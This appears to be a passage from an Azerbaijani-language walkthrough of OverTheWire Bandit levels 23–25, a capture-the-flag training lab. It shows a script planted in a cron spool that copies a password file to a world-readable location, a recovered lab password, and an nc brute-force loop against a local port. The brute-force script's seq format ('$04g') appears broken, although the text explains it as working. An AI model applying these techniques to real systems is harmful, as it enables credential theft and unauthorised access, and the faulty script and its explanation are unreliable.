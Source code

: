```
fi
done
```
- Hər bir skripti “/var/spool/bandit24” proqramında yerinə yetirir (və sonra onları silir). Beləliklə, biz ora bandit24-parolunu oxuya biləcəyimiz “/tmp” faylına köçürən bir skript yerləşdirə bilərik:

```
vim /var/spool/bandit24/hackinganarchy.sh

#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/hackinganarchy.txt
chmod 444 /tmp/hackinganarchy.txt
```

- Bu qısa kiçik skript bandit24 parol faylının məzmununu “/tmp/hackinganarchy.txt” faylına köçürür və onu hər kəs üçün oxunaqlı edir.
> Skriptin ilk sətri [Shebang](https://en.wikipedia.org/wiki/Shebang_(Unix)) adlanır.
> O, faylı icra edərkən hansı interpreterin istifadə ediləcəyini linux kommand sətirinə bildirir.
  
- Onu işə salmazdan əvvəl icra edilə bilən hala gətirməliyik:

`bandit23@bandit:~$ chmod 555 /var/spool/bandit24/hackinganarchy.sh`
  
- Cronjob işə salındıqdan sonra parolumuzu alacağıq:
```
bandit23@bandit:~$ cat /tmp/hackinganarchy.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
- parolu copy edib çıxırıq `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

**Bandit [LEVEL 24->25](https://overthewire.org/wargames/bandit/bandit25.html)**
![bandit leve24-25](https://i.imgur.com/ugV4AfI.png)
```
ssh bandit.labs.overthewire.org -p 2220 -l bandit24
```
- `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

- Bu Səviyyə bizi bruteforcing anlayışı ilə tanış edir. Bruteforcing o deməkdir ki, biz düzgün olanı əldə edənə qədər hər bir imkanı sınayırıq. Bunu əl ilə etmək yorucu və inanılmaz vaxt aparacaq, buna görə də, əlbəttə ki, bunun üçün bir skript yazacağıq:

```
vim /tmp/hackinganarchy.sh

#!/bin/sh
for i in `seq -f $04g 0 9999`;
do
echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done | nc localhost 30002
```
- Bu, “0000” və “9999” arasındakı bütün dəyərlərdən keçəcək, tələb olunduğu kimi onları Səviyyə 24 parolunun yanında çap edəcək və sonra onları 30002 portuna göndərəcək.

- Seq əmri 0-dan 9999-a qədər olan nömrələrin siyahısını qaytarır, -f $04g parametri isə həmişə 4 simvol uzunluğunda olması üçün ona qabaqcıl sıfırları yazmağı əmr edir. Ətrafındakı "` "` onu əmr sətirinin özündən deyil, əmrin çıxışından istifadə etməyə imkan verir.
